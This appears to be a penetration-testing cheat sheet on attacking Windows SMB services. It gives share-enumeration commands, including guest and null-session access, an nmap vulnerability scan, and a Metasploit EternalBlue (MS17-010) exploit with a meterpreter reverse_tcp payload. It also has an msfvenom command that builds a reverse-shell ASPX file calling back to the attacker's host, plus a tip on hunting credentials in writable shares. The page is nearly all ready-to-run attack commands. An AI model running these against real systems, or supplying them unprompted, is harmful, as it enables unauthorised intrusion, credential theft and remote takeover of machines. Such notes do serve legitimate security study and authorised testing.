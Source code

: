 - `Always check guest login and then check public share with write and execute permission and you will find credential, files pdf ps1 etc`

## Basic SMB Enumeration

```bash
smbclient -L //<ip>               # List available shares (anonymous)
smbclient //ip/share              # Connect to share (anonymous)
smbclient //ip/share -u <user>    # Connect as specific user

smbmap -H <ip>                    # (public shares) (check read write and execute)

enum4linux -a <ip>                # best command to find details and users list

crackmapexec smb <ip> -u guest -p '' --shares  # List shares with null session
```

## Vulnerability Scanning
```bash
nmap -p 445 --script vuln -Pn -T4 -v <ip>   # Check for SMB vulns (e.g., MS17-010)
```


---

# EternalBlue (MS17-010)
### Exploit with Metasploit
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target_ip>
set LHOST <your_ip>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
run
```

### MSFVenom Payload 
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<your_ip> LPORT=4444 -f aspx -o shell.aspx
```
